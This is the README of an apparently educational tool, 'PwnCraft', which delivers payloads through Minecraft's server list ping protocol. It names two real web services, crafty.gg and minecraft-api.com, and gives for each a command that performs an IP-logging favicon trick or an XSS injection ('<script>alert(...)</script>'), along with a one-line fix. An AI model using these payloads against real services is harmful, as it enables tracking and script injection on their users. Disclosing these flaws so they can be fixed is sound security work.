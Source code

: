 # PwnCraft 🏴‍☠️

A tool built to deliver malicious payloads through [Minecraft SLP protocol](https://wiki.vg/Server_List_Ping).
Made for educational purpose, for preventing people from getting attacked by this.

## Example usages

> Use https://crafty.gg as an IP logger

Fix: Accept only favicon that starts with `png,base64...`

- `https://crafty.gg/tools/ping?ip=YOUR_IP&port=YOUR_PORT&platform=java`

- `./pwncraft localhost 1337 -f 'https://CANARY/'`

> XSS on https://minecraft-api.com

Fix: HTML escape data from server

- `https://minecraft-api.com/api/ping/YOUR_IP/YOUR_PORT`

- `./pwncraft localhost 1337 -d '<script>alert("XSS !");</script>'`

## Credits

Varint implementation: https://github.com/jsvana/async-minecraft-ping/
